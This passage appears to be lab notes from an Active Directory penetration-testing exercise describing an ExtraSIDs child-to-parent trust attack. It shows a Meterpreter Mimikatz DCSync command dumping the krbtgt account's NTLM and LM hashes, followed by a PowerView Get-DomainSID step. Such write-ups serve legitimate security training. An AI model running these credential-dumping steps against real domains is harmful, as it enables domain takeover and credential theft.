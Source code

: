*We also got the `Trusted_User` flag from the Administrators Desktop*

<img src="attachments/ac3010790ef3af8f34be5c15029459f5.png" />


We performed an ExtraSIDs attack as described in [[9.2 Attacking Domain Trusts - Child -> Parent Trusts - from Windows]].

- Obtaining the KRBTGT Account's NT Hash using Mimikatz

```
meterpreter > kiwi_cmd "lsadump::dcsync /user:LAB\krbtgt" 

Credentials:                                                              Hash NTLM: c7a03c565c68c6fac5f8913fab576ebd                               ntlm- 0: c7a03c565c68c6fac5f8913fab576ebd                                 lm  - 0: 275562baeaca436b4b62a05ba13611db
```

<img src="attachments/ec4cff64f506dcea739ea779bb910db2.png" />

 - Using PowerView `Get-DomainSID` function to get the SID for the child domain

```
PS C:\htb> Get-DomainSID
```
